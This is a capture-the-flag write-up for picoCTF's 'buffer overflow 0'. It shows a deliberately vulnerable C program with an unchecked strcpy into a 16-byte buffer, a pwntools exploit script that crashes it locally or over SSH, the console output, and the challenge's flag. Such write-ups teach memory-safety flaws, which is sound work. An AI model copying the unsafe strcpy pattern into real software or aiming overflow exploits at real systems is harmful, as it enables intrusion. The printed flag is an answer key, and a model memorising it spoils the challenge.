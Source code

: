 # buffer overflow 0
Binary Exploitation, 150 points

## Description:
> Let's start off simple, can you overflow the right buffer in this program to get the flag?

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

## Solution:

The program check if any command line arguments were passed to it (`argc > 1`), and if so, passes the first command line as a parameter for `vuln`. 

`vuln` then tries to copy the argument into a local buffer of size 16.

It's easy to see that if we pass an argument longer than 16 bytes, we will overflow the local buffer. If the argument is long enough, we will cause a segmentation fault and trigger the `sigsegv_handler`, printing the flag.

Solving this with pwntools is a bit of an overkill since we can easily just call `./vuln $(python -c "print 'A'*32")`, but it's a nice opportunity to practice.

The code:
```python
from pwn import *
import argparse
import os

EXECUTABLE = "vuln"
LOCAL_PATH = "./"
REMOTE_PATH = "/problems/buffer-overflow-0_0_6461b382721ccca2318b1d981d363924/"
SSH_SERVER = "2018shell3.picoctf.com"

def get_process(ssh_user = None, arguments = None):
    if arguments is None:
        arguments = []
    if type(arguments) is not list:
        raise ValueError("Invalid type for 'arguments' ({}), expecting list or None".format(type(arguments)))
    if ssh_user is not None:
        s = ssh(host=SSH_SERVER, user=ssh_user)
        p = s.process(argv = [REMOTE_PATH + EXECUTABLE] + arguments, cwd = REMOTE_PATH)
    elif os.path.exists(REMOTE_PATH):
        p = process(argv = [REMOTE_PATH + EXECUTABLE] + arguments, cwd = REMOTE_PATH)
    else:
        p = process(argv = [LOCAL_PATH + EXECUTABLE] + arguments, cwd = LOCAL_PATH)
    return p



parser = argparse.ArgumentParser()
parser.add_argument("-s", "--ssh_user", help="Connect via SSH with the given username")
args = parser.parse_args()

p = get_process(args.ssh_user, [cyclic(32)])
print p.recvall()
```

Basically, the script just calls the `vuln` process with a string of length 32 (generated using `cyclic`) and prints the response, which contains the flag.

It can do this either over SSH or locally.

```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_0# python exploit.py --ssh_user $pico_ssh_username
[+] Connecting to 2018shell3.picoctf.com on port 22: Done
[*] user@2018shell3.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Starting remote process '/problems/buffer-overflow-0_0_6461b382721ccca2318b1d981d363924/vuln' on 2018shell3.picoctf.com: pid 27603
[+] Receiving all data: Done (43B)
[*] Stopped remote process 'vuln' on 2018shell3.picoctf.com (pid 27603)
picoCTF{ov3rfl0ws_ar3nt_that_bad_a54b012c}
```

The flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_a54b012c}